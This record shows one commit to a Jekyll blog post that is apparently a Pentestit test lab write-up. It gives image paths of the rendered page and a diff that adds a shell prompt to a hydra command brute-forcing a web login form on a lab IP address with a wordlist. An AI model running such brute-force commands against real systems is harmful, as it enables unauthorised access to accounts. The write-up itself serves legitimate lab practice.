

Before and after one commit to PhaNDoMs/PhaNDoMs.github.io, a Jekyll site: the page built from _posts/2019-12-04-Pentestittestlabv10writeupmailtoken.markdown, in a window 1280 px wide and 900 px high, scrolled down 1510 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2019-12-04-Pentestittestlabv10writeupmailtoken.markdown

````diff
--- a/_posts/2019-12-04-Pentestittestlabv10writeupmailtoken.markdown
+++ b/_posts/2019-12-04-Pentestittestlabv10writeupmailtoken.markdown
@@ -50,7 +50,7 @@ Moving on to port 8100, which looks like another webserver. Accessing the websit
 Since we want to try all possible users, ive added the found emails to a file named "users.txt". After that I started to bruteforce the login-form on http://192.168.101.9:8100/login/ with the following command:
 
 ```shell
-hydra -v -t 16 -L users.txt -P /root/Desktop/wordlists/john.txt http-post://192.168.101.9:8100/login/
+root@DOS-Kali:~# hydra -v -t 16 -L users.txt -P /root/Desktop/wordlists/john.txt http-post://192.168.101.9:8100/login/
 ```
 
 With success! We found the login for a.modlin:
````
